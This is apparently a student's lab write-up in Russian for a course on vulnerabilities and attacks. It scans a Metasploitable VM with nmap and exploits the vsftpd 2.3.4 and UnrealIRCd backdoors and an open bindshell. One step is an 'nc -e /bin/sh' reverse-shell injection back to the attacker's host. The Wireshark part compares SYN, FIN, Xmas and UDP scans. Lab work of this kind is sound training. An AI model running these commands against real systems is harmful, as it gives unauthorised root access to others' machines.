# Домашнее задание к занятию «Уязвимости и атаки на информационные системы»

### Задание 1

Скачайте и установите виртуальную машину Metasploitable: https://sourceforge.net/projects/metasploitable/.

Это типовая ОС для экспериментов в области информационной безопасности, с которой следует начать при анализе уязвимостей.

Просканируйте эту виртуальную машину, используя **nmap**.

Попробуйте найти уязвимости, которым подвержена эта виртуальная машина.

Сами уязвимости можно поискать на сайте https://www.exploit-db.com/.

Для этого нужно в поиске ввести название сетевой службы, обнаруженной на атакуемой машине, и выбрать подходящие по версии уязвимости.

Ответьте на следующие вопросы:

- Какие сетевые службы в ней разрешены?
- Какие уязвимости были вами обнаружены? (список со ссылками: достаточно трёх уязвимостей)
  
*Приведите ответ в свободной форме.*  

### Решение 1

Сканируем виртуальную машину Metasploitable, используя **nmap**.
```python
sudo nmap -sS 192.168.160.128
```


```python
nmap -sV 192.168.160.128
```


Запустим также с параметром `script vuln`:
```python
nmap -sV --script vuln 192.168.160.128
```

Разбор команд:
nmap: Запуск программы.
-sV: (Service Version) Определить версии запущенных сервисов (так как уязвимости зависят от версий).
--script vuln: Запустить набор скриптов, которые проверяют найденные сервисы на наличие известных уязвимостей.
192.168.160.128: IP-адрес Metasploitable машины.



- Какие сетевые службы в ней разрешены?
На основе вывода nmap, на машине запущено большое количество различных сетевых служб:

Файловые серверы: FTP (порты 21 и 2121), NFS (порт 2049), Samba/NetBIOS (порты 139 и 445).

Удаленное управление: SSH (порт 22), Telnet (порт 23), Rlogin/Rexec (порты 512, 513), VNC (порт 5900).

Веб-серверы: Apache httpd (порт 80), Apache Tomcat (порт 8180).

Базы данных: MySQL (порт 3306), PostgreSQL (порт 5432).

Почта: SMTP Postfix (порт 25).

Прочее: DNS (порт 53), IRC (порт 6667), Java RMI (порт 1099) и спец порт с открытой консолью (1524).


- Какие уязвимости были вами обнаружены? (список со ссылками: достаточно трёх уязвимостей)
Уязвимости Metasploitable:
1. vsftpd 2.3.4 — Backdoor Command Execution

На порту 21 работает FTP-сервер версии vsftpd 2.3.4. В исходном коде этой конкретной версии существует известный бэкдор. Если при подключении указать имя пользователя, заканчивающееся на смайлик :) (например, user:)), сервер открывает шелл с правами root на порту 6200.

Ссылка на Exploit-DB: https://www.exploit-db.com/exploits/17491
Тип: Удаленное выполнение кода (RCE).
Воспроизводим:

Терминал1:
telnet 192.168.160.128 21
ответ: 220 (vsFTPd 2.3.4)
USER user:)
ответ: 331 Please specify the password.
PASS 123


Терминал2:
nc 192.168.160.128 6200
/usr/bin/whoami
ответ: root
/usr/bin/id
ответ: uid=0(root) gid=0(root)
/sbin/ifconfig
ответ: ..net addr:192.168.160.128  Bcast:192.168.160.255  Mask:255.255.255.0..



2. UnrealIRCd 3.2.8.1 — Backdoor Command Execution

На порту 6667 работает IRC-сервер UnrealIRCd (3.2.8.1). В этой версии также был бэкдор в архиве с исходным кодом. Отправка определенной команды серверу позволяет выполнять произвольные команды в системе.

Ссылка на Exploit-DB: https://www.exploit-db.com/exploits/16922
Тип: Удаленное выполнение кода (RCE).
Воспроизводим:
Выполним команду sleep 50:
```python
echo "AB; sleep 10" | nc 192.168.160.128 6667
```
Если терминал зависнет на 50 секунд перед тем как отключиться — значит, сервер выполнил команду sleep 50.

Терминал завис на 50 сек.

Терминал снова готов к работе. Проверка успешно завершена. Бэкдор слепой, поэтому простого способа увидеть ответ сервера нет. Для полноценного управления можно использовать Reverse Shell (Обратный шелл).

Воспроизводим:
Терминал1:
Запускаем слушателя на порту 4444 и ждем обратного подключения
```python
nc -lvnp 4444
```


Терминал2:
```python
echo "AB; nc -e /bin/sh 172.23.38.117 4444" | nc 192.168.160.128 6667
```
Проверяем подключение:
Listening on 0.0.0.0 4444
whoami
ответ: root
id
ответ: uid=0(root) gid=0(root)
hostname
ответ: metasploitable



3. Cамая очевидная "дыра": порт 1524/tcp, который nmap определил как bindshell с описанием Metasploitable root shell. Это не уязвимость программного обеспечения, а намеренно оставленный открытым "черный ход".
Воспроизводим:
```python
nc 192.168.160.128 1524
```

Получаем права суперпользователя (root) без пароля.


### Задание 2

Проведите сканирование Metasploitable в режимах SYN, FIN, Xmas, UDP.

Запишите сеансы сканирования в Wireshark.

Ответьте на следующие вопросы:

- Чем отличаются эти режимы сканирования с точки зрения сетевого трафика?
- Как отвечает сервер?

*Приведите ответ в свободной форме.*

### Решение 2

1. Запуск перехвата трафика (Terminal №1)

Используя tcpdump записываем все пакеты, которые идут к Metasploitable и обратно, в файл scan_results.pcap.

```python
sudo tcpdump host 192.168.160.128 -w scan_results.pcap
```



2. Проведение сканирования (Terminal №2)

Запускаем сканирования по очереди, указывая конкретные порты (например, 21, 22, 80), чтобы не ждать сканирования всех 65000 портов и чтобы лог был читаемым.

- SYN Scan (Стелс-сканирование)

```python
sudo nmap -sS -p 21,22,80 192.168.160.128
```

- FIN Scan

```python
sudo nmap -sF -p 21,22,80 192.168.160.128
```

- Xmas Scan

```python
sudo nmap -sX -p 21,22,80 192.168.160.128
```

- UDP Scan Внимание: UDP сканирование медленное. Сканируем только один порт (137 - NetBIOS), который точно открыт.
 
```python
sudo nmap -sU -p 137 192.168.160.128
```

3. Завершение и анализ

В окне Terminal №1 останавливаем запись (Ctrl + C). Открываем полученный файл scan_results.pcap в Wireshark и анализируем данные дампа в UI.


- SYN Scan (-sS)
Самый распространенный тип сканирования. Полное TCP-соединение не устанавливается, поэтому в логах приложений сервера это сканирование часто не видно.

Nmap отправляет пакет с флагом SYN (предложение начать соединение).
Сервер отвечает SYN/ACK ("Согласие").
Nmap мгновенно отправляет RST (Сброс), обрывая связь.
Сервер сразу присылает RST/ACK ("Подтверждение сброса").



Строки 12, 13, 14: сканирующий ПК (172.23.38.117) отправляет пакеты с флагом [SYN] на порты 80, 21, 22 с запросом установить соединение.
Строки 15, 17, 18: Сервер Metasploitable (192.168.160.128) отвечает [SYN, ACK] с согласием установить соединение (порт открыт).
Строки 16, 19, 20: сканирующий ПК мгновенно отправляет [RST] (Reset). Это грубый разрыв и отказ продолжать соединение.

Вывод: Соединение не было установлено до конца, приложение на сервере, скорее всего, не записало это в лог, но Nmap понял, что порты открыты.

- FIN Scan (-sF)
Использует лазейку в стандарте TCP. Если ответа нет — порт открыт. Если пришел RST — закрыт. Работает на Linux, но не работает против Windows (Windows всегда отвечает RST).

Nmap отправляет пакет только с флагом FIN (завершение связи), хотя связи и не было.
Ответ сервера (если порт открыт): Тишина. По стандарту RFC 793, открытый порт должен игнорировать некорректный FIN-пакет.
Ответ сервера (если порт закрыт): Сервер отправляет RST ("Мы даже не знакомы!").



Строки 28, 29, 30 (и повторы 31-33): сканирующий ПК отправляет пакеты только с флагом [FIN] на порты 22, 80, 21. Флаг FIN означает "завершение разговора".
Ответ сервера: после этих строк нет ответов от сервера (нет красных или зеленых строк от 192.168... с флагом RST).

Вывод: Так как порты открыты, сервер просто проигнорировал этот пакет (согласно стандарту TCP). Тишина в ответ на FIN означает для Nmap, что порт открыт.

- Xmas Scan (-sX)
Называется так, потому что в пакете "горят" сразу несколько флагов, как лампочки на елке. Используется для обхода старых брандмауэров, которые ищут только SYN-пакеты.

Отправляется пакет с нелогичным набором флагов: FIN, PSH, URG.
Ведет себя точно так же, как FIN Scan.
Открытый порт: Тишина.
Закрытый порт: RST.



Строки 41, 42, 43 (и повторы 44-46): сканирующий ПК отправляет пакеты с набором флагов [FIN, PSH, URG].
Ответ сервера: Тишина. Сервер не прислал в ответ RST (сброс).

Вывод: Как и в случае с FIN, открытые порты игнорируют этот "мусорный" пакет. Отсутствие ответа подтверждает, что порты открыты.

- UDP Scan (-sU)
Принципиально другой протокол (без установления соединения). Самое сложное сканирование. Часто непонятно, порт открыт или пакет просто потерялся (так как подтверждения доставки в UDP нет).

Nmap отправляет UDP-пакет (пустой или со специфичными данными протокола).
Ответ сервера (если порт открыт):
Либо Тишина (сервер принял данные и ждет добавки). Либо ответные данные (если приложение настроено отвечать сразу).
Ответ сервера (если порт закрыт): 
Сервер (а точнее ОС) присылает ICMP-сообщение "Destination unreachable (Port unreachable)".



Строки 54, 55, 56: сканирующий ПК отправляет запрос "Name query NBSTAT". Специфичный запрос для NetBIOS.
Строки 57, 58, 59: Сервер Metasploitable отвечает "Name query response" и передает данные в ответ.

Вывод: В отличие от TCP здесь получаем реальный ответ от сервиса. Это значит, UDP-порт 137 открыт и сервис работает.

Итого:
В режиме SYN мы видим попытку "рукопожатия" (SYN -> SYN/ACK -> RST). Это активное взаимодействие. Сервер всегда отвечает явно (готов общаться или нет).
В режимах FIN и Xmas мы отправляем некорректные пакеты (без начала соединения) и ждем ошибки. Трафик выглядит "сломанным". В результате сервер либо молчит (значит открыт), либо грубо сбрасывает соединение (RST).
В режиме UDP нет флагов соединения - просто отправка данных "в никуда". В ответ получаем ICMP-ошибку, если порт закрыт. Если открыт — тишина или получаем данные.


